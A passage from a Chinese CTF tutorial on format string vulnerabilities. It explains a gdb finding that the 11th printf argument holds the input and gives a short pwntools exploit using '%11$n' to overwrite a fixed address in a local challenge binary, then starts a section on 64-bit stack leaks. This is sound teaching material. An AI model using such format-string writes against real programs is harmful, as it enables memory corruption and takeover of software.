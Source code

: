 gdb动调一下

[![](assets/1701612281-ad1a4e6c388ce840a98c64e807c15598.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223751-ac9ab46c-2578-1.png)

第一个方框里面是printf()的第一个参数

下面的方框是格式化字符串的参数，可以看到第11个参数在栈上写入了我们输入的字符串，所以我们也就知道了要修改哪个地方的内容了

exp：

```plain
from pwn import *
context(os='linux',arch='i386',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
x_addr=0x0804A02C
payload=p32(x_addr)+b"%11$n"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-23a49c4f8dc45cefbf56529e3af6a6cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223758-b0847d1a-2578-1.png)

#### fmtstr2

##### 泄露栈内存(64位的格式化字符串)

前期准备工作

[![](assets/1701612281-9ccedd5c3d8f4c93cf66e3cd5edd821f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223802-b2de732c-2578-1.png)
